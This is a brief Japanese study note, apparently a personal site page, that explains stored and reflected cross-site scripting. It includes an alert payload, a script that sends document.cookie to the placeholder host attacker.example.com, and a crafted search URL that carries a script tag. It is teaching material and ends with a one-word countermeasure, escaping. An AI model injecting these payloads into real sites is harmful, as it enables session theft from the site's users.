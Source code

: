 ```yaml
---
title: "XSS (Cross-Site Scripting)"
draft: false
weight: 999
---
```


攻撃者が悪意あるスクリプトをユーザに実行させる

## 持続型 XSS (stored)

攻撃用の JS が攻撃対象のサイトに保存されているタイプの XSS。
攻撃者の悪意ある入力がデータベースに保存され、他のユーザがサイトにアクセスした時に実行される。

例えば、チャットアプリで攻撃者が

```html
<script>alert("Hacked!");</script>
```

と投稿し、その内容がエスケープなどの適切な処理をされなかったとする。

この時、ユーザがチャットアプリにアクセスすると上記の script タグが実行される。
alert だけなら問題はないかもしれないが、下記のような script にすれば cookie を攻撃者に送信することができてしまう。

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.example.com/steal-data", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("cookie=" + document.cookie);
</script>
```

## 反射型 XSS (reflected)

攻撃用の JS が攻撃対象のサイトではない場所にある場合の XSS。
持続型のXSS と比べて影響範囲は小さそう。

例えば偽サイトのリンクやメール、SNS の URL として次のようなリンクを仕込んでおく。

```html
https://victim.example.com/search?q=<script>alert('Hacked!');</script>
```

攻撃対象のサイトでパラメータを適切に処理していない場合に script が実行されてしまう。

## 対策

エスケープ
